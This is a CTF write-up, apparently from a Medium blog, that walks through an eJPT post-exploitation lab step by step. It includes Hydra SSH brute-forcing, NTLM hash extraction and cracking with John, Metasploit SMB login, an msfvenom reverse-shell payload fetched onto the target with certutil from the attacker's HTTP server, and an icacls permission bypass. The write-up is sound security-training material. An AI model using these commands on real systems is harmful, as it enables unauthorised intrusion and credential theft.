# eJPT: Host & Network Penetration Testing: Post-Exploitation CTF 2

https://medium.com/@murat_kuzucu/ejpt-host-network-penetration-testing-post-exploitation-ctf-2-105fdf6fc548

Let’s start with an nmap scan on our target.


SSH,smb,rdp services are open.

“**Flag 1:** An insecure ssh user named **alice** lurks in the system.”

Let's do a brute-force attack on SSH.

```
hydra -l alice -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt target.ine.local ssh
```

We have found credentials.

So let's take a look at the SSH service.

```
ssh alice<span style="color: rgb(170, 13, 145);">@target</span>.ine.local
```


We got our first flag

“**Flag 2:** Using the hashdump file discovered in the previous challenge, can you crack the hashes and compromise a user?”

Let's download the hashdump file via SSH with scp.

```
scp alice<span style="color: rgb(170, 13, 145);">@target</span>.ine.<span style="color: rgb(170, 13, 145);">local</span>:hashdump.txt hashdump.txt
```



We have a hash file like this.

We can code a Python script to separate usernames and hashes

```
<span style="color: rgb(170, 13, 145);">def</span> extract_ntlm_hashes(<span style="color: rgb(92, 38, 153);">input_file, ntlm_output_file, username_output_file, user_hash_output_file</span>):
    <span style="color: rgb(196, 26, 22);">"""
    Extracts usernames and NTLM hashes from the input file and writes them to separate files and a combined user: hash file.
    :param input_file: The name of the input file containing the full hashdump.
    :param ntlm_output_file: The name of the output file for NTLM hashes.
    :param username_output_file: The name of the output file for usernames.
    :param user_hash_output_file: The name of the output file for user:hash pairs.
    """</span>
    <span style="color: rgb(170, 13, 145);">try</span>:
        <span style="color: rgb(170, 13, 145);">with</span> <span style="color: rgb(92, 38, 153);">open</span>(input_file, <span style="color: rgb(196, 26, 22);">'r'</span>) <span style="color: rgb(170, 13, 145);">as</span> infile, \
             <span style="color: rgb(92, 38, 153);">open</span>(ntlm_output_file, <span style="color: rgb(196, 26, 22);">'w'</span>) <span style="color: rgb(170, 13, 145);">as</span> ntlm_outfile, \
             <span style="color: rgb(92, 38, 153);">open</span>(username_output_file, <span style="color: rgb(196, 26, 22);">'w'</span>) <span style="color: rgb(170, 13, 145);">as</span> username_outfile, \
             <span style="color: rgb(92, 38, 153);">open</span>(user_hash_output_file, <span style="color: rgb(196, 26, 22);">'w'</span>) <span style="color: rgb(170, 13, 145);">as</span> user_hash_outfile:
            <span style="color: rgb(170, 13, 145);">for</span> line <span style="color: rgb(170, 13, 145);">in</span> infile:
                parts = line.strip().split(<span style="color: rgb(196, 26, 22);">":"</span>)
                <span style="color: rgb(170, 13, 145);">if</span> <span style="color: rgb(92, 38, 153);">len</span>(parts) >= <span style="color: rgb(28, 0, 207);">4</span>:  <span style="color: rgb(0, 116, 0);"># Ensure line has enough parts</span>
                    username = parts[<span style="color: rgb(28, 0, 207);">0</span>]
                    ntlm_hash = parts[<span style="color: rgb(28, 0, 207);">3</span>]
                    <span style="color: rgb(170, 13, 145);">if</span> ntlm_hash != <span style="color: rgb(196, 26, 22);">"aad3b435b51404eeaad3b435b51404ee"</span>:  <span style="color: rgb(0, 116, 0);"># Skip LM hash placeholders</span>
                        ntlm_outfile.write(<span style="color: rgb(196, 26, 22);">f"<span style="color: rgb(0, 0, 0);">{ntlm_hash}</span>\n"</span>)
                        username_outfile.write(<span style="color: rgb(196, 26, 22);">f"<span style="color: rgb(0, 0, 0);">{username}</span>\n"</span>)
                        user_hash_outfile.write(<span style="color: rgb(196, 26, 22);">f"<span style="color: rgb(0, 0, 0);">{username}</span>:<span style="color: rgb(0, 0, 0);">{ntlm_hash}</span>\n"</span>)
        <span style="color: rgb(92, 38, 153);">print</span>(<span style="color: rgb(196, 26, 22);">f"NTLM hashes extracted successfully to '<span style="color: rgb(0, 0, 0);">{ntlm_output_file}</span>'"</span>)
        <span style="color: rgb(92, 38, 153);">print</span>(<span style="color: rgb(196, 26, 22);">f"Usernames extracted successfully to '<span style="color: rgb(0, 0, 0);">{username_output_file}</span>'"</span>)
        <span style="color: rgb(92, 38, 153);">print</span>(<span style="color: rgb(196, 26, 22);">f"User:Hash pairs extracted successfully to '<span style="color: rgb(0, 0, 0);">{user_hash_output_file}</span>'"</span>)
    <span style="color: rgb(170, 13, 145);">except</span> FileNotFoundError:
        <span style="color: rgb(92, 38, 153);">print</span>(<span style="color: rgb(196, 26, 22);">f"Error: The file '<span style="color: rgb(0, 0, 0);">{input_file}</span>' was not found."</span>)
    <span style="color: rgb(170, 13, 145);">except</span> Exception <span style="color: rgb(170, 13, 145);">as</span> e:
        <span style="color: rgb(92, 38, 153);">print</span>(<span style="color: rgb(196, 26, 22);">f"An error occurred: <span style="color: rgb(0, 0, 0);">{e}</span>"</span>)

<span style="color: rgb(0, 116, 0);"># Example usage</span>
input_filename = <span style="color: rgb(196, 26, 22);">"hashdump.txt"</span>  <span style="color: rgb(0, 116, 0);"># Replace with your input filename</span>
ntlm_output_filename = <span style="color: rgb(196, 26, 22);">"ntlm_hashes.txt"</span>  <span style="color: rgb(0, 116, 0);"># Replace with your NTLM output filename</span>
username_output_filename = <span style="color: rgb(196, 26, 22);">"usernames.txt"</span>  <span style="color: rgb(0, 116, 0);"># Replace with your username output filename</span>
user_hash_output_filename = <span style="color: rgb(196, 26, 22);">"user_hash_pairs.txt"</span>  <span style="color: rgb(0, 116, 0);"># Replace with your user:hash output filename</span>
extract_ntlm_hashes(input_filename, ntlm_output_filename, username_output_filename, user_hash_output_filename)
```

```
python3 script.py
```



Now we have three files, let's crack NTLM-hashes with john-the-ripper

```
john --format=nt --wordlist=/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt ntlm_hashes.txt
```

We have cracked two hashes, let's write to a file and use it for brute-force.

There is a Metasploit module named smb_login,

Let's use our usernames, passwords files.

set rhosts target.ine.local

set USER_FILE usernames.txt

set PASS_FILE passwords.txt

set CreateSession true

run



We have also found the correct credentials for these users.



nothing useful here.

Let's try SSH with user david.



flag3: “Can you escalate privileges and read the flag in C://Windows//System32//config directory?”

Let's create msfvenom shell:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<lhost> LPORT=1234 -f exe > shell.exe
```

So we're going to transfer our shell file with certutil and python3 http.server

```
<span style="color: rgb(0, 116, 0);">#on local</span>
python3 -m http.server 80
<span style="color: rgb(0, 116, 0);">#on target</span>
certutil.exe -urlcache -<span style="color: rgb(92, 38, 153);">split</span> -f http://<localmachine>/shell.exe shell.exe
```

after transferring our file to C:\\Temp\\ directory,

Let's use Metasploit multi/handler

set payload windows/meterpreter/reverse_tcp

set lhost,lport

run

and run shell.exe

 

We can try an easy method to escalate our privilege to get the system. And it works!!

“Can you escalate privileges and read the flag in C://Windows//System32//config directory?”

I have answered this question, but it's buggy.



flag4: “Looks like the flag present in the Administrator’s home denies direct access.”



We can't change the directory to flag because



SYSTEM user permission denied.

We can change it:

```
icacls flag /remove:d <span style="color: rgb(196, 26, 22);">"NT AUTHORITY\SYSTEM"</span>
```



We can read it now.
